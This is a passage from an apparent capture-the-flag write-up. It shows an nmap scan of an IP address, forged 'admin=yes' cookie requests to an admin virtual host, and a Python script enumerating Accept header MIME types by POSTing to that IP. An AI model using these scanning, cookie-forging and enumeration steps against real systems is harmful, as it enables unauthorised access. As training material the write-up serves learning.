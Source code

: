```nmap -A 104.236.20.43 -sV -Pn```  
So next, I sent the folowing request:  

>GET / HTTP/1.1  
Host: admin.acme.org  

This gave me the following response:
>HTTP/1.1 200 OK  
Server: Apache/2.4.18 (Ubuntu)  
Set-Cookie: **admin=no**  
Content-Length: 0  
Content-Type: text/html; charset=UTF-8  
 
Awesome, we got a new clue.  
If you look at the response you can see that it sets a cookie ```admin=no```.  
Well.. The first thing we would try is sending this request over but this time with the cookie set to ```admin=yes```.

So i sent the following request:
>GET / HTTP/1.1  
Host: admin.acme.org  
Cookie: **admin=yes**  

Response:
>HTTP/1.1 405 Method Not Allowed  

hmm. *Method Now Allowed*?
Let's change the request type to [```POST```](https://en.wikipedia.org/wiki/POST_(HTTP)).  
Now we got this response:
>HTTP/1.1 406 Not Acceptable  

When we google this error code, the following site pops up:  
* http://www.hostingflow.com/http-error-406-not-acceptable/   
which says:  

```It means that the file exists but the client system did not understand the requested file format. This is because the MIME type specified in the Accept header fails to match with the MIME type specified in the requested file name extension. The browser can only accept data that it knows how to process such as HTML and GIF files. If it is a file that it cannot process such as multimedia file, it will return the 406 error message.```  

```MIME type: A MIME type is a label used to identify a type of data.```  

So it tells us that the server needs to know what type of data it recieves.  
# 
Next I scramled a list of MIME types together, which we will use in a simple python script to check which one the server accepts.  
I created the following script:  
```python
import requests

values = "audio/aac, application/x-abiword, application/octet-stream, video/x-msvideo, application/vnd.amazon.ebook, application/octet-stream, application/x-bzip, application/x-bzip2, application/x-csh, text/css, text/csv, application/msword, application/vnd.ms-fontobject, application/epub+zip, image/gif, text/html, image/x-icon, text/calendar, application/java-archive, image/jpeg, application/javascript, application/json, audio/midi, video/mpeg, application/vnd.apple.installer+xml, application/vnd.oasis.opendocument.presentation, application/vnd.oasis.opendocument.spreadsheet, application/vnd.oasis.opendocument.text, audio/ogg, video/ogg, application/ogg, font/otf, image/png, application/pdf, application/vnd.ms-powerpoint, application/x-rar-compressed, application/rtf, application/x-sh, image/svg+xml, application/x-shockwave-flash, application/x-tar, image/ttf, application/vnd.visio, audio-x-wav, audi/webm, video/webm, image/webp, font/woff, font/woff2, application/xhtml+xml, application/xml, application/zip, video/3gpp, audio/3gpp, application/x-7z-compressed".split(",")

for value in values:
	headers = {"Host":"admin.acme.org", "Accept":value, "Cookie":"admin=yes"}
	r = requests.post("http://104.236.20.43", headers=headers)
	print r.status_code
```   